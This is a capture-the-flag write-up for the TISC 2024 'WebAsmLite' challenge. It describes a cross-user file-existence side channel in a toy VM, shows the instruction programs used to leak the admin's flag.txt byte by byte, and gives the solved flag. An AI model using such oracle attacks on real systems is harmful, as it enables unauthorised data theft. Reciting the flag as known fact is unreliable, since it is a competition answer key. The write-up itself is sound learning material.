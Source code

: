 # Level 7A: WebAsmLite

## Description
>You've come so far, brave agents! Let us continue our mission to identify our threats, and retrieve the crucial information that they are hiding from the world.
>
>Your next target is a top-secret file named "flag.txt" which contains sensitive information accessible only to the admin of their web execution system. Your mission is to exfiltrate this file and bring it to light, exposing the chaos they intend to unleash upon our country.
>
>To add another layer of challenge, it seems like the enemy organization has deployed their file server on an isolated network with strict security measures. The server is only accessible through a specially designed secure web portal. The admin's credentials are unknown, but there might be some hidden vulnerabilities that you can exploit.
>
>Your fellow agents have found the URL to the portal, and that will be your starting point! Your task is to use your hacking skills and keen problem-solving abilities to find a way into the system, access the elusive "flag.txt" file, and claim victory against chaos.
>
>You will be provided with the following file:
>
>- MD5 (webasmvm.tar.xz) = 9c281969f5119fb02aafac691708baa4
>
>Service:
>http://chals.tisc24.ctf.sg:50128/
>
>Attached files:
>webasmvm.tar.xz

## Solution

Prepare the files.

```bash
┌──(kali㉿kali)-[~/Desktop/level-7a]
└─$ md5sum webasmvm.tar.xz
9c281969f5119fb02aafac691708baa4  webasmvm.tar.xz

┌──(kali㉿kali)-[~/Desktop/level-7a]
└─$ tar -xvf webasmvm.tar.xz
ascii.s
server.js
smolvm.js
```

Tested instruction set in `ascii.s` and observed that 8 registers ("reg") can be manipulated.

![image](../images/d184122dca533769b72bdd8f9b59217aa6a7ae0a4b3f8979eca989318c3aeff3.jpg)  

Tried to read flag.txt and observed that when a file is unreadable, the first register will return -1 (expressed as 255).

```
Input:
READ:flag.txt;
HALT;

Output:
{
  "timestamp": "2024-09-23T18:14:56.834Z",
  "adminResult": "REDACTED",
  "userResult": {
    "status": "Job Ended",
    "vm_state": {
      "pc": 1,
      "reg": "255,0,0,0,0,0,0,0",
      "memory": "________________________________________________________________"
    }
  }
}
```

Examined `server.js` and observed that the instruction set will be run twice, once as adminuser and once as publicuser.

```js
---redacted---
app.post('/requestadmin', (req, res) => {
  const { prgmstr } = req.body

  const fs = new SMOLFS()
  fs.createFile(adminuser, 'flag.txt', new TextEncoder().encode(process.env.TISC_FLAG))

  const adminVM = new SMOLVM(fs)
  adminVM.execute(adminuser, prgmstr)
  const userVM = new SMOLVM(fs)
  const userResult = userVM.execute(publicuser, prgmstr)
  const output = {
    timestamp: new Date().toISOString(),
    adminResult: "REDACTED",
    userResult: userResult
  }
  res.json(output)
})
---redacted---
```

Examined `smolvm.js` and observed that privileges were checked before performing file operations.

```js
---redacted---
  createFile (user, filename, binary) {
    if (!this.directory[filename]) {
      const f0 = new SMOLFILE()
      f0.owner = user.username
      f0.priv = user.privlvl
      for (let i = 0; i < 32; i++) {
        f0.content[i] = binary[i]
      }

      this.directory[filename] = f0
    }
  }

  destroyFile (user, filename) {
    if (this.directory[filename]) {
      if (user.username === this.directory[filename].owner) {
        delete this.directory[filename]
      }
    }
  }

  readFile (user, filename) {
    if (this.directory[filename]) {
      if (user.username === this.directory[filename].owner || user.privlvl > this.directory[filename].priv) {
        return this.directory[filename].content
      }
    }
  }
---redacted---
```

Designed the following instruction set to perform the conditional checks to leak the flag.

```
WRITE:test.txt;
READ:test.txt;  // If adminuser created test.txt and not deleted, publicuser cannot read.
IMM:1:255;
SUB:2:0:1;
JNZ:2:2;  // Jump 2 instructions forward if can read test.txt.
HALT;
READ:flag.txt;
IMM:3:32;  // Set the memory address to be checked, first byte at mem[32].
LOAD:4:3;
IMM:5:84;  // Guess that first char of flag is 'T', represented by '84' in ASCII.
SUB:6:4:5;
JZ:6:2;  // Jump 2 instructions forward if guess is correct.
HALT;
DEL:test.txt;  // If guess is correct, delete test.txt.
HALT;
```

Conduct test case on the instruction set. Observed that "pc" will be 12 when the guess is correct and 5 when the guess is wrong.

```
Test Case 1 (Guess is correct)

Input:
WRITE:test.txt;
READ:test.txt;
IMM:1:255;
SUB:2:0:1;
JNZ:2:2;
HALT;
READ:flag.txt;
IMM:3:32;
LOAD:4:3;
IMM:5:84;
SUB:6:4:5;
JZ:6:2;
HALT;
DEL:test.txt;
HALT;

Output:
{
  "timestamp": "2024-09-23T18:54:40.730Z",
  "adminResult": "REDACTED",
  "userResult": {
    "status": "Job Ended",
    "vm_state": {
      "pc": 12,
      "reg": "255,255,1,32,0,84,172,0",
      "memory": "________________________________________________________________"
    }
  }
}

Test Case 2 (Guess is wrong)

Input:
WRITE:test.txt;
READ:test.txt;
IMM:1:255;
SUB:2:0:1;
JNZ:2:2;
HALT;
READ:flag.txt;
IMM:3:32;
LOAD:4:3;
IMM:5:85;
SUB:6:4:5;
JZ:6:2;
HALT;
DEL:test.txt;
HALT;

Output:
{
  "timestamp": "2024-09-23T18:54:59.114Z",
  "adminResult": "REDACTED",
  "userResult": {
    "status": "Job Ended",
    "vm_state": {
      "pc": 5,
      "reg": "255,255,0,0,0,0,0,0",
      "memory": "________________________________________________________________"
    }
  }
}
```

Using Burp Suite, intercept a sample request and Send to Repeater. Examined the Request and Response.

![image](../images/3f6390e897b56ccabfc74b3d4c3c6889cb6b1d1e700cca4550576c6e94c1cc45.jpg)  

Write python script to automate the guessing efforts for mem[32] to mem[63] (32 bytes) with '32' to '127' (ASCII printable characters). Script used can be found [here](./level-7a-solution.py).

```bash
┌──(kali㉿kali)-[~/Desktop/level-7a]
└─$ python level-7a-solution.py                                        
Obtained flag: TISC{le4ky_l3aky_1f8e3ba511ee!}
```

## Flag
`TISC{le4ky_l3aky_1f8e3ba511ee!}`
